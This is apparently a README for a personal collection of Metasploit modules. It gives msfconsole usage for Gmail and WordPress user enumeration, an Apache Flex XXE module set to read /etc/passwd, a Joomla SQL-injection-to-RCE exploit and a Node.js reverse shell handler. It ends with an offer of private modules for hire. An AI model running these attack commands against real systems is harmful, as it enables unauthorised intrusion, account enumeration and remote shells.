 # Modules MSF. 

Some modules that I created for fun. =]

##### gmail_checker.rb
Enumerate user of gmail. 

````
msf> use auxiliary/gather/gmail_checker
msf> set check_email email_target@gmail.com
msf> run
. 
. 
.
````
##### Wordpress Enumeration Users 
Enumerate adminnistrations users. 

````
msf> use auxiliary/gather/wordpress_enumerating_username
msf> set rhost <target>
msf> exploit 
.
.
.
````

##### wp_drive_rce
RCE in Google Drive plugin for wordpress .

##### wp_with_pritz
Path Transversal WP with Spritz for wordpress .

##### apacheflex_xxe
XXE Injection in Apache Flex 

````
msf> use auxiliary/http/apacheflex_xxe
msf> set rhost <target>
msf> set rport <target>
msf> set file  </etc/passwd>
msf> exploit 
.
.
.
`````


##### joomla_comfields_sqli_rce
SQL Injection in Joomla 

`````
msf> use exploits/unix/webapp>joomla_comfields_sqli_rce
msf> set rhost <target>
msf> set rport <target>
msf> exploit 
.
.
.
`````


##### nodejs_reverseshell
Reverse TCP using Node JS

`````
msf> use exploits/multi/handler
msf> set payload cmd/unix/reverse_nodejs
msf> set rhost <ip>
msf> set rport <port>
msf> exploit

`````




###### Obs: 
I do private jobs (private modules . . .), if you are interesting send me an e-mail at: dctoralves@gmail.com
